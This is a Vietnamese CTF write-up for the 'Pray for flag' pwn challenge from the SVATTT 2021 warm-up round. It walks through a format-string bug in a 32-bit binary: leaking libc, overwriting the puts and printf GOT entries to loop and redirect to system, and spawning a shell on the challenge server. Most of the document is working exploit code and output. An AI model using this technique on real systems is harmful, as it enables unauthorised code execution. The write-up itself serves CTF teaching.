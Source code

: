 # PWN WRITE UP - Vòng khởi động svattt 2021
## 1. Pray for flag


Đầu tiên mình kiểm tra qua file bằng checksec 


```
[*] '/home/iluvinn/pwn/svattt/pray_for_flag/pwn1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Thấy có canary và nx enabled nên hướng làm có thể sẽ sử dụng format string. 
<br>
Chạy thử để xem file hoạt động ra sao <br>
```
## TEST 1 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
I_want_money      <=== USER INPUT
I_want_money      <=== OUTPUT
Bye
## TEST 2 ##
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
%p.%p.%p                      <=== INPUT
0x100.0xf7f125c0.0x80485df    <=== OUTPUT 
Bye
```
Sure kèo có format string rồi :v 
<br>
Tiếp sau đấy mình dùng ida để decompile ra source code
```
void init()
{
  setbuf(stdout, 0);
  setbuf(stdin, 0);
  setbuf(stderr, 0);
}

unsigned int vuln()
{
  char s[256]; // [esp+Ch] [ebp-10Ch] BYREF
  unsigned int v2; // [esp+10Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);        <=== CANARY
  fgets(s, 256, stdin);
  printf(s);                        <=== FORMAT STRING VULN
  return __readgsdword(0x14u) ^ v2;
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(&argc);
  puts("Welcome to the wishing central!");
  puts("Tell me what you want and I will give it to you.");
  puts("What do you want?");
  vuln();
  puts("Bye");
  return 0;
}
``` 

Mình nhận tháy là trong .plt không có hàm system vậy nên ý nghĩ ban đầu cần phải có libc base address, system offset và "/bin/sh" offset sau đó điều khiển luồng chương trình thực thi hàm system và gọi bash.
<br>
Ý tưởng của mình ở đây là overwrite địa chỉ của hàm puts khiến nó gọi lại hàm vuln để tạo 1 vòng loop. Sau đó overwrite hàm printf bằng system. Đến lần loop thứ 3 ta chỉ đơn giản là input chuỗi "/bin/sh"
<br>
Đầu tiên là leak stack để tìm libc base và tạo loop.

```
iluvinn in ~/pwn/svattt/pray_for_flag λ ./pwn1
Welcome to the wishing central!
Tell me what you want and I will give it to you.
What do you want?
AAAA%p.%p.%p.%p.%p.%p.%p.%p          
AAAA0x100.0xf7f165c0.0x80485df.0xf7f16d80.0x11.0x80487b1.0x41414141.0x252e7025    <=== write to parameter 7 on stack
Bye
----------------#   GDB   #--------------------------
main:
   0x0804868b <+82>:	add    esp,0x10
   0x0804868e <+85>:	call   0x80485d0 <vuln>  <==== overwirte puts@plt = 0x0804868e
   0x08048693 <+90>:	sub    esp,0xc
puts@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a01c
   0x08048436 <+6>:	push   0x20
   0x0804843b <+11>:	jmp    0x80483e0

----------------# Exploit #--------------------------
   put =  0x804a01c
   arr = [0x868e,0x0804]          <==== address of "call   0x80485d0 <vuln>"
   exp = p32(put)+p32(put+2)      <==== put low and high address of "puts" into stack
   
   wr = arr[1]-8
   exp+="%"+str(wr)+"c%8$hn"      <==== write low addr with "%hn"
   wr = arr[0]-arr[1]
   exp+="%"+str(wr)+"c%7$hn"      <==== write high addr with "%hn"
   
   exp+="%2$p"                    <==== leak 1 addr in libc to calculate libc base address
   x = 0xf7edc5c0 - 0xf7d04000    <==== offset from 2nd parameter to libc base address
   
   p.recvuntil('want?\n')
   p.sendline(exp)                <==== send payload
   p.recvuntil('0x')
   libc_base =int("0x"+p.recv(8),16)-x  <=== leak 2nd parameter and calculate libc base address
   print "libc base: "+hex(libc_base)
```
Tiếp sau đó ta overwrite printf thành system
```
------------------------------------------
iluvinn in ~/pwn/svattt/pray_for_flag λ readelf -s libc-2.27.so | grep system
   254: 00129530   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d2e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d2e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0              <==== system offset
--------------# GDB #---------------------
pr = 0x804a010                  <==== printf@plt addr

sys_offset = 0x003d2e0
sys_got=libc_base+sys_offset
sys_got = str(hex(sys_got))
arr = [int("0x"+sys_got[6:],16),int(sys_got[:6],16)]

exp = p32(pr)+p32(pr+2)         
xx = arr[0]-8
exp+="%"+str(xx)+"c%7$hn"
xx = arr[1]-arr[0]
exp+="%"+str(xx)+"c%8$hn"

p.sendline(exp)
p.sendline("/bin/sh")     <==== send "/bin/sh" string so it will call system("/bin/sh") instead of printf("/bin/sh")
p.interactive()
```
Chạy file [exploit](https://github.com/yuumi001/write-up/blob/main/svattt/exp.py) hoy
```
iluvinn in ~/pwn/svattt/pray_for_flag λ python exp.py
[+] Opening connection to 134.209.97.157 on port 2222: Done
libc base: 0xf7daa000
[*] Switching to interactive mode
$ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
$ cat fl*
ptitctf{B3_C4RFUL_WH47_Y0U_W15H_F0R}
$
```
